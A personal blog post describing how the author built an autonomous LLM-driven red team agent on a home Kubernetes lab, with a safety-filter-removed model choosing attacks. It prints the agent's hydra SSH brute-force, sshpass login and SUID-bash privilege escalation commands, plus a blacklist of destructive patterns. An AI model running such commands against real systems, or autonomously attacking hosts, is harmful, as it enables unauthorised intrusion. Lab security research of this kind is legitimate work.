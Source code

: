 ```yaml
---
date: 2025-10-08
title: Building an Autonomous Hacking Agent (That Actually Works)
tags: [OFFENSIVE SECURITY, RED TEAM, KUBERNETES, BLACKARCH, LLM, MCP]
---
```


Got K3s cluster running yesterday. MCP RAG server functional. Decided to build something defensible: autonomous red team agent. LLM-guided, 2000+ offensive tools, attacks physical hardware. Completely unnecessary. Built it anyway.

First problem: discovered I'd named all my nodes wrong. The "asus-laptop" was actually my MSI gaming laptop. The "celeron-potato" was the ASUS. Not sure what past-me was thinking. Clearly this required completely renaming everything:

- MochiMetasploit (MSI laptop)
- NekoNetcat (ASUS laptop)
- PandaPayload (Mac Pro target)
- FluffyFirewall (Proxmox server)

Yes, offensive security infrastructure named after cute things. The cognitive dissonance is intentional. Other devices will get similar treatment.

### The Concept (That Nobody Asked For)

Kubernetes pod with 2000+ BlackArch tools (hydra, nmap, metasploit, sqlmap). Queries MCP RAG server containing 5,395 offensive security documents (GTFOBins, Atomic Red Team, HackTricks). Makes decisions via local LLM (Qwen 2.5 Coder 14B abliterated). Attacks physical target machine.

Isolated by Kubernetes NetworkPolicy. Can only reach: target (192.168.1.99), MCP server, LLM, DNS. No internet. No other pods. Contained (in theory).

### The Obvious Mistake

Midway through testing: I forgot to actually give it any tools. Minimal Python container had SSH and curl. That's it. No hydra, no nmap, nothing useful. Rebuilt entire container from BlackArch base image. 2000+ tools, pre-installed. Problem solved through sheer brute force.

### Execution Flow (It Actually Worked)

<div style="background: var(--smoke); padding: 1.5rem; margin: 1.5rem 0; border-left: 5px solid var(--blood-red);">
  <p style="margin-bottom: 1rem; color: var(--blood-red); font-weight: 700;">ITERATION 1: RECONNAISSANCE</p>
  <ol style="margin-left: 1.5rem; line-height: 1.8;">
    <li>Agent queries MCP: "How do I brute force SSH with weak passwords?"</li>
    <li>MCP returns: Atomic Red Team T1110.001, hydra example</li>
    <li>Agent asks LLM: "What command should I run?"</li>
    <li>LLM suggests: <code>hydra -l victim -p password123 ssh://192.168.1.99</code></li>
    <li>Agent executes</li>
    <li>Result: Valid credentials found (victim:password123)</li>
  </ol>
</div>

<div style="background: var(--smoke); padding: 1.5rem; margin: 1.5rem 0; border-left: 5px solid var(--blood-red);">
  <p style="margin-bottom: 1rem; color: var(--blood-red); font-weight: 700;">ITERATION 2: ACCESS</p>
  <ol style="margin-left: 1.5rem; line-height: 1.8;">
    <li>Agent to LLM: "I have credentials. How establish SSH?"</li>
    <li>LLM: <code>sshpass -p 'password123' ssh victim@192.168.1.99 'whoami'</code></li>
    <li>Agent executes</li>
    <li>Result: SSH access confirmed, user-level compromise achieved</li>
  </ol>
</div>

<div style="background: var(--smoke); padding: 1.5rem; margin: 1.5rem 0; border-left: 5px solid var(--blood-red);">
  <p style="margin-bottom: 1rem; color: var(--blood-red); font-weight: 700;">ITERATION 3: PRIVILEGE ESCALATION</p>
  <ol style="margin-left: 1.5rem; line-height: 1.8;">
    <li>Agent queries MCP: "Escalate privileges with SUID binaries?"</li>
    <li>MCP returns: GTFOBins SUID bash technique</li>
    <li>Agent searches, finds: <code>/tmp/bash-suid</code></li>
    <li>Agent runs: <code>/tmp/bash-suid -p -c "whoami && cat /root/flag.txt"</code></li>
    <li>Result: Root access, flag captured (FLAG{you_got_root_access_congratulations})</li>
  </ol>
</div>

**Total time: 87 seconds. Six commands. 100% success rate.** Either the target was pathetically vulnerable or the agent got lucky. Probably both.

### Safety Measures (Because This Is Dangerous)

Running autonomous hacking agent requires containment. Multiple layers:

- **NetworkPolicy:** Declarative firewall, only reaches target/MCP/LLM/DNS
- **Command Sandbox:** Whitelist allowed tools, blacklist destructive patterns (rm -rf, dd, format)
- **Non-root:** Runs as UID 1000, all capabilities dropped
- **Resource Limits:** 1 CPU, 1GB RAM max (can't fork bomb the cluster)
- **Logging:** Every command timestamped, saved to JSON

### Why This Exists (Questionable Justification)

Had to build it myself because nothing combined:

- K8s-native autonomous red team agent
- MCP RAG for offensive security (semantic search over 5,395 exploit docs)
- LLM + RAG + execution loop for pentesting
- BlackArch in isolated pod (2000+ tools)
- Physical hardware targets (not just containers)

### The MCP Protocol Fix (3 Lines, 4 Hours)

Morning started with MCP server completely broken. 404 errors everywhere. LM Studio's MCP implementation released same day, my server wasn't handling `notifications/initialized` message that clients send post-handshake.

Fix was embarrassingly simple:

<div style="background: var(--smoke); padding: 1.5rem; margin: 1rem 0; border-left: 3px solid var(--blood-red);">
  <code style="display: block; line-height: 1.8;">
    elif method == "notifications/initialized":<br />
    &nbsp;&nbsp;&nbsp;&nbsp;logger.info("Received notifications/initialized from client")<br />
    &nbsp;&nbsp;&nbsp;&nbsp;return '', 200
  </code>
</div>

That's it. Client expects acknowledgment. Without it, handshake times out. With it, everything works. Spent 4 hours debugging because MCP spec doesn't emphasize which messages are critical vs optional. Should have added debug logging first. Didn't. Paid the price.

Fixed protocol bug by 2pm. Built autonomous hacking agent by 8pm. Day well spent (probably).

<div style="background: var(--ash-gray); padding: 2rem; margin: 2rem 0; border: 3px solid var(--blood-red);">
  <p style="text-align: center; font-size: 1.3rem; color: var(--blood-red); margin-bottom: 1rem;">
    <strong>FINAL ARCHITECTURE</strong>
  </p>
  <pre style="color: var(--pure-white); line-height: 1.6; overflow-x: auto;">
Main PC (192.168.1.84)
    ↓ LLM Queries (Qwen 2.5 Coder 14B Abliterated)
K3s Cluster - FluffyFirewall (192.168.1.181)
    ├─ MCP RAG Server (5,395 docs: GTFOBins, Atomic Red Team, HackTricks)
    ├─ Red Team Agent (2000+ BlackArch tools)
    │  └─ NetworkPolicy (containment, allegedly)
    └─ Targets: MochiMetasploit, NekoNetcat, PandaPayload
  </pre>
</div>

Tomorrow: sanitize code (remove hardcoded IPs), write documentation (2500+ lines apparently), maybe push to GitHub. This probably qualifies as a proof of concept. Whether anyone needs it is a different question.
